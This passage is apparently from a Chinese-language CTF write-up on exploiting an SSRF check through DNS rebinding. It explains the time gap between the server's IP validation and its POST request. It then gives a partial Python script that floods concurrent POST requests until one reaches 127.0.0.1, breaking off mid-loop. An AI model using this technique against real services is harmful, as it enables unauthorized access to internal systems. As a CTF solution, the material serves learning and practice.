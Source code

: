 我们看到，这道题目很明显考察的是 SSRF 漏洞的利用，但是由于它先尝试域名能否解析出 IP，以及对 IP 是否为本地地址进行了严格的检查，我们很多绕过方法都是无效的，此时我们只剩下 DNS 重绑定这一种方法可以使用。

由于它是先检查域名指向的 IP 是否“合法”之后，再去发起 POST 请求，所以它中间是有时间差的，只要我们在通过了它的检查之后并且在它发出 POST 请求之前，将 DNS 记录改成 `127.0.0.1` ，那么我们就可以成功绕过限制，获取 flag，我写了一个 python 脚本去大量发起请求，只要有一条请求满足上述要求，我们就能够解出这道题。

```python
import asyncio
import requests
from concurrent.futures import ThreadPoolExecutor
import time

# 全局标志：用于控制所有任务是否停止
should_stop = False

def sync_request_get(url):
    try:
        response = requests.get(url, timeout=5)
        return {
            "status": response.status_code,
            "content": response.text,
            "success": True
        }
        # return response.text
    except Exception as e:
        return {
            "status": None,
            "content": str(e),
            "success": False
        }

def sync_request_post(url):
    try:
        data = {
            'id': '3e57b368-1e0a-46ed-bfe6-e9f05341179c'
        }
        response = requests.post(url, data=data, verify=True)
        return {
            "status": response.status_code,
            "content": response.text,
            "success": True
        }
        # return response.text
    except Exception as e:
        return {
            "status": None,
            "content": str(e),
            "success": False
        }

async def async_request_wrapper(url, executor):
    """将同步请求包装为异步操作"""
    loop = asyncio.get_event_loop()
    # 在线程池中执行同步请求
    return await loop.run_in_executor(executor, sync_request_post, url)

async def request_worker(url, worker_id, executor):
    """请求工作协程：不断发送请求直到停止标志被激活"""
    global should_stop
    request_count = 0
    
    while not should_stop:
        request_count += 1
        print(f"Worker {worker_id} 第 {request_count} 次请求...")
        
```